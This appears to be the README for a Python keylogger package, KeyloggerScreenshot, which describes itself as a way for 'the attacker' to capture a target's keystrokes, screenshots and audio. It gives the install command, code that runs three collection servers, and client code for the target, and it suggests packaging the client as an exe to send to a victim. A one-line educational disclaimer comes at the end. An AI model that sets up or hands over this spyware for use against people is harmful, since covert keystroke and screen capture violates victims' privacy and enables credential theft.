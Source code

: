 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and a screenshot of a specific minutes which is being calculated in the script

To install KeyloggerScreenshot simply type:

`pip install KeyloggerScreenshot`

In your terminal

HOW DOES KeyloggerScreenshot WORK?
==================================

This module can be used in Windows and Linux
The servers can now be run in the same file with the module threading

For example:

Servers
------
```python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip_keylogger, port_keylogger = "127.0.0.1", 5678
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_photos, port_photos = "127.0.0.1", 1232
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_listener, port_listener = "127.0.0.1", 7900
server_listener = ks.ServerListener(ip_listener, port_listener)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

```

Every screenshots, photos and audio files will be saved locally where your server is located

Client_Target
-------------
```python
#client_target.py
import KeyloggerScreenshot as ks

key_client = ks.KeyloggerTarget("127.0.0.1", 1234, "127.0.0.1",5678,"127.0.0.1",7900, duration_in_seconds=300)
key_client.start()

```

Additional
==========
* You can send "client_target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.